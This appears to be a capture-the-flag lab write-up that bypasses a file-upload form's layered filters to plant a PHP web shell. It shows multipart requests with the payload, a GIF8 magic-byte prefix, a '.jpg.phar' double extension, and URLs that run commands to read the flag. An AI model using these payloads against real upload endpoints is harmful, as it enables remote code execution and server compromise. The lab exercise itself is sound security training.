






## Exercises

### Question 1 — The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at "/flag.txt"

Uploaded the profile cat image as usual to get a baseline request.



Located the `POST /upload.php` request in Burp's HTTP history and sent it to Repeater and Intruder.



#### First Attempt: Payload Alone

Tried swapping in just the PHP payload against the existing `cat.jpg` filename, with no other changes:

```http
------geckoformboundary3a78539d85d9b2dbac599d004be6b87f
Content-Disposition: form-data; name="uploadFile"; filename="cat.jpg"
Content-Type: image/jpeg

<?php system($_REQUEST["cmd"]); ?>
------geckoformboundary3a78539d85d9b2dbac599d004be6b87f--
```

This returned **Only images are allowed**.



Ruled out: changing only the file content isn't enough on its own here, since the server validates the file's actual content as an image (MIME type), not just its extension.

#### Adding the GIF Magic Bytes

Prefixed the payload with `GIF8` to make the file's content match the GIF signature, keeping the filename as `cat.jpg`:

```http
------geckoformboundary3a78539d85d9b2dbac599d004be6b87f
Content-Disposition: form-data; name="uploadFile"; filename="cat.jpg"
Content-Type: image/jpeg

GIF8<?php system($_REQUEST["cmd"]); ?>
------geckoformboundary3a78539d85d9b2dbac599d004be6b87f--
```



This returned **File successfully uploaded**. Confirmed: the MIME-type check accepts the file once its content starts with the GIF signature, but the file is still saved as `cat.jpg`, which won't execute as PHP on its own.

#### Reverse Double Extension to Reach PHP Execution

With the content now passing the MIME check, the filename still needed to both pass the whitelist and get executed as PHP by the server. Applied the reverse double extension technique from the whitelist section, appending `.phar` after the whitelisted `.jpg` extension:

```http
------geckoformboundary3a78539d85d9b2dbac599d004be6b87f
Content-Disposition: form-data; name="uploadFile"; filename="cat.jpg.phar"
Content-Type: image/jpeg

GIF8<?php system($_REQUEST["cmd"]); ?>
------geckoformboundary3a78539d85d9b2dbac599d004be6b87f--
```



Visited the uploaded file with a test command:

```txt
http://154.57.164.82:39391/profile_images/cat.jpg.phar?cmd=id
```



Confirmed: the response starts with `GIF8`, since that was written as plain text ahead of the PHP code to satisfy the MIME check, followed by the executed command's output — confirming the file both passed every filter (client-side, blacklist, whitelist, Content-Type, and MIME-type) and executes as PHP via the `.phar`-in-filename server misconfiguration.

Read the flag with the same shell:

```txt
http://154.57.164.82:39391/profile_images/cat.jpg.phar?cmd=cat+/flag.txt
```


**Answer:** `—REDACTED—`